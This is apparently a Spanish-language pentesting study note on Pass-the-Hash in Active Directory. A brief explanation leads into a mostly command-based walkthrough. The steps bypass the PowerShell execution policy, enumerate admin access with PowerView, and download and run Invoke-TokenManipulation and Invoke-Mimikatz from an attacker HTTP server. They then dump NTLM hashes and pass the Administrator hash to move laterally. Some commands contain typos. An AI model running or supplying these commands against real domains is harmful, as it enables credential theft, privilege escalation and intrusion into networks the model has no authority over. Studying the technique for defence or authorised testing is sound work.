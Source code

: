 # Pass The Hash 

Tags: #AD #Window #PassTheHash 

PtH es una técnica donde robas una credencial principalmente en los sistemas Windows. Un atacante puede obtener los hashes de las password de un usuario y usarlo para autenticarse como ese usuario, bypaseando la necesidad de la actual password en texto plano. Este ataque principalmente comienza cuando el atacante gana acceso no autorizado a un sistema comprometido donde los hashes de las password estan almacenadas. Una vez adquiridas, el atacante puede explotar la vulnerabilidad en el protocolo de autenticacion de Windows, como un NTLM o Kerberos, para pasar las credenciales hasheadas a otros sistemas dentro del dominio de AD.  Para 'bypassing' se necesita crackear la password, el atacante puede moverse lateralmente dentro de la red, escalar privilegios y potencialmente hacer actividades maliciosas.  

Los atacantes obtienen fácilmente las credenciales hasheadas para loas ataques de AD haciendo 'Pass-The-hash' por medio del dumpeo de memoria o robando hashes de contraseñas desde sistemas comprometidos.  

```bash 
❯ wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-TokenManipulation.ps1
```

```powershell
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 
 	
❯ . .\PowerView.ps1                          # Importamos el modulo
❯ Get-Domain 
❯ Find-LocalAdminAccess                      # Descubrir maquinas en el AD donde el user tiene acceso local de Admin

❯ Enter-PSSession seclogs.domian.local       # Nos autenticamos a la sesion local via remota al 'DOMINIO' 
	❯ whoami /all                           
	❯ whoami /priv                          # Miramos si tenemos los priv para elevar los privilegios

# En la maquina del DC abrimos un 'HFS' para transferir el archivo 'Invoke-TokenMalipulation.ps1' a la sesion remota 
	❯ cd /                                  # Nos dirigimos a la carpeta 'root' de la sesion remota 
	❯ iex (New-Object New.webClient).DownloadString('http://IP-HFS/Invoke-TokenMalipulation.ps1') # Descargamos en la sesion remota el modulo que se encuentra en el DC de la maquina no remota llamado 'Invoke-TokenMalipulation.ps1' por medio del 'HFS' para despues utilizarlo dentro de la misma sesion remota 
		❯ Invoke-TokenManipulation -Enumerate # Enumerara todos los token disponibles, si el 'LogonType = 2' quiere decir que el usuario admin esta loggeado
	❯ iex (New-Object New.WebClient).DownloadString('http://IP-HFS/Invoke-Mimikatz.ps1') 
		❯ Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"' # Nos muestra el hash NTLM de todos los usuarios asi como el del 'Admin' 
```

```powershell
# Abrimos una nueva consola de Poweshell como 'Admin'
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 
 	
❯ . .\Invoke-Mimikatz.ps1                    # Importamos el modulo 
❯ Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:<Domain> /ntlm:<hash NTLM> /run:powershell.exe"' 
# Hacemos el 'Pass-The-Hash' e ingresamos como el usuario 'Administrator'

# Despliega una nueva venta en Powershell
❯ Enter-PSSession prod.research.domian.local # Ingresamos al 'DOMINIO' via remota como el usuario Admin
```